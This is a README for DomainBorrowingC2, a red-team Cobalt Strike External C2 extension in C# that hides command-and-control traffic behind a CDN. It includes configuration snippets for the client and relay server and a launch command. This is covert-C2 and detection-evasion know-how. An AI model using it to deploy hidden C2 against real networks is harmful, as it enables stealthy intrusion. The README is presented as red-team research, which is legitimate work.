 # DomainBorrowingC2

Domain Borrowing is a new method to hide C2 traffic using CDN. It was first presented at Blackhat Asia 2021 by [Junyu Zhou](https://twitter.com/md5_salt) and Tianze Ding. You can find the presentation slides [here](https://www.blackhat.com/asia-21/briefings/schedule/#domain-borrowing-catch-my-c-traffic-if-you-can-22314) and [here](https://i.blackhat.com/asia-21/Thursday-Handouts/as-21-Ding-Domain-Borrowing-Catch-My-C2-Traffic-If-You-Can.pdf).

DomainBorrowingC2 was made as part of an internship at [NVISO Security](https://nviso.eu/en)'s Red Team. Follow their work on [their blog](https://blog.nviso.eu) and [Twitter](https://twitter.com/NVISO_Labs).

DomainBorrowingC2 is an extension for Cobalt Strike written in C# using Cobalt Strike's [External C2 spec](https://www.cobaltstrike.com/help-externalc2). It is based on [Ryan Hanson](https://twitter.com/ryhanson)'s [ExternalC2](https://github.com/ryhanson/ExternalC2) library and the [Covenant PoC](https://github.com/Dliv3/DomainBorrowing) provided in the Blackhat Asia 2021 slides.

I wrote a [blogpost](https://cerbersec.com/2021/05/18/domain-borrowing.html) about it.

## ClientC2
The ClientC2 project is responsible for connecting to the CDN and requesting a stager from ServerC2. It manages communications between Beacon and ServerC2.

Configuration for the client happens in `Program.cs`. The client takes 4 parameters:
1. domain or ip address to reach the CDN edge server(s)
2. the SNI
3. OPTIONAL port to communicate with the CDN, default port is 443
4. OPTIONAL sleep in milliseconds between messages, default is 60s

```csharp
Client client = new Client("target.domain.or.ip.address.here", "target.sni.here", 443, 60000);
```

## ServerC2
The ServerC2 project is responsible for relaying communications between the CDN and Cobalt Strike's Teamserver via the ExternalC2 socket.

Configuration for the server happens in `SocketSettings.cs`. Specify Cobalt Strike's ExternalC2 listener address and port here.

```csharp
public SocketSettings()
{
    IpAddress = "127.0.0.1";
    Port = "2222";
}
```

Launch the server with: `sudo dotnet run --url http://127.0.0.1:80/`. You can customize the IP and port to your liking and configure your CDN appropriately.

## Known issues

* ServerC2 currently depends on ClientC2, so make sure to copy the ClientC2 project before running ServerC2.
* This PoC will not be enhanced or updated at the moment due to possible IP conflicts, however you're free to submit a pull request and add features or functionality.